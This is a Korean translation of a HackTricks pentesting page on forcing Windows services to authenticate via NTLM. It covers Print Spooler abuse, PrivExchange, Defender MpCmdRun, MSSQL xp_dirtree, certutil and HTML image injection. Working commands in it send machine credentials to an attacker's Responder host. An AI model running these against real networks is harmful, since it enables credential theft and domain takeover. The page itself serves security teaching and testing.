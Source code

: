 # NTLM 특권 인증 강제

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고**하거나 **PEASS의 최신 버전에 액세스**하거나 HackTricks를 **PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **[hacktricks repo](https://github.com/carlospolop/hacktricks)와 [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers)는 3rd party 종속성을 피하기 위해 C#과 MIDL 컴파일러를 사용하여 작성된 **원격 인증 트리거**의 **모음**입니다.

## Spooler Service 남용

_**Print Spooler**_ 서비스가 **활성화**되어 있다면, 이미 알려진 AD 자격 증명을 사용하여 도메인 컨트롤러의 프린트 서버에게 새로운 프린트 작업에 대한 업데이트를 요청하고, 그 작업을 **일부 시스템에게 알릴 수 있습니다**.\
프린터가 임의의 시스템에 알림을 보낼 때, 해당 **시스템에 대해 인증**해야 합니다. 따라서 공격자는 _**Print Spooler**_ 서비스를 임의의 시스템에 대해 인증하도록 만들 수 있으며, 이 인증에서 서비스는 **컴퓨터 계정**을 사용할 것입니다.

### 도메인에서 Windows 서버 찾기

PowerShell을 사용하여 Windows 상자 목록을 가져옵니다. 서버는 일반적으로 우선순위가 있으므로 여기에 초점을 맞춥니다:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spooler 서비스 수신 확인

@mysmartlogin (Vincent Le Toux)의 [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)를 약간 수정하여 Spooler 서비스가 수신 중인지 확인합니다:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
당신은 Linux에서 rpcdump.py를 사용하여 MS-RPRN 프로토콜을 찾을 수도 있습니다.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 임의의 호스트에 대해 서비스에 인증을 요청하기

[여기에서 SpoolSample을 컴파일할 수 있습니다](https://github.com/NotMedic/NetNTLMtoSilverTicket).
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
또는 Linux를 사용하는 경우 [**3xocyte의 dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) 또는 [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)를 사용할 수 있습니다.
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation과 결합하기

만약 공격자가 이미 [Unconstrained Delegation](unconstrained-delegation.md)을 통해 컴퓨터를 침투했다면, 공격자는 **프린터가 이 컴퓨터에 대해 인증하도록 만들 수 있습니다**. Unconstrained Delegation으로 인해, **프린터의 컴퓨터 계정의 TGT**가 Unconstrained Delegation을 가진 컴퓨터의 **메모리에 저장**됩니다. 공격자는 이미 이 호스트를 침투했으므로, 이 티켓을 **검색**하고 ([Pass the Ticket](pass-the-ticket.md)) 악용할 수 있습니다.

## RCP 강제 인증

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` 공격은 **Exchange Server의 `PushSubscription` 기능**에서 발견된 결함으로 인해 발생합니다. 이 기능은 Exchange 서버가 메일박스를 가진 모든 도메인 사용자에 의해 클라이언트가 제공한 호스트에 대해 HTTP를 통해 강제로 인증되도록 합니다.

기본적으로 **Exchange 서비스는 SYSTEM으로 실행**되며 과도한 권한을 부여받습니다 (특히, **2019년 이전 누적 업데이트에서는 도메인에 대한 WriteDacl 권한**을 가집니다). 이 결함은 **LDAP로 정보 중계 및 도메인 NTDS 데이터베이스 추출**을 가능하게 악용할 수 있습니다. LDAP로 중계하는 것이 불가능한 경우에도, 이 결함은 여전히 도메인 내의 다른 호스트로 중계 및 인증하는 데 사용될 수 있습니다. 이 공격의 성공적인 악용은 인증된 도메인 사용자 계정으로 즉시 도메인 관리자에 대한 액세스를 부여합니다.

## Windows 내부

이미 Windows 기기 내부에 있는 경우 다음과 같이 Windows를 강제로 특권 계정을 사용하여 서버에 연결할 수 있습니다:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

MSSQL은 Microsoft SQL Server의 약어로, 관계형 데이터베이스 관리 시스템(RDBMS)입니다. 이 데이터베이스는 Windows 운영 체제에서 실행되며, 기업 환경에서 많이 사용됩니다. MSSQL은 데이터 저장, 검색, 관리, 보안 등 다양한 기능을 제공합니다. 이 데이터베이스는 웹 애플리케이션, 엔터프라이즈 솔루션, 비즈니스 인텔리전스 등 다양한 애플리케이션에서 사용됩니다.
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
또 다른 기술을 사용할 수도 있습니다: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin (Microsoft-signed binary)을 사용하여 NTLM 인증을 강제로 유도할 수 있습니다:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML 삽입

### 이메일을 통한 삽입

취약한 기기에 로그인하는 사용자의 **이메일 주소**를 알고 있다면, 그 사용자에게 1x1 이미지가 포함된 **이메일을 보내기만** 하면 됩니다.
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
그리고 그가 열면, 그는 인증을 시도할 것입니다.

### MitM

만약 컴퓨터에 MitM 공격을 수행하고 그가 시각화할 수 있는 페이지에 HTML을 주입할 수 있다면, 다음과 같은 이미지를 페이지에 주입해 볼 수 있습니다:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 크랙하기

[NTLMv1 도전 과제를 캡처하면 여기에서 어떻게 크랙하는지 알 수 있습니다](../ntlm/#ntlmv1-attack).\
_NTLMv1을 크랙하려면 Responder 도전 과제를 "1122334455667788"로 설정해야 합니다._

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고하고 싶으신가요**? 아니면 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **[hacktricks repo](https://github.com/carlospolop/hacktricks)와 [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**에 PR을 제출하여 여러분의 해킹 기법을 공유해주세요.

</details>

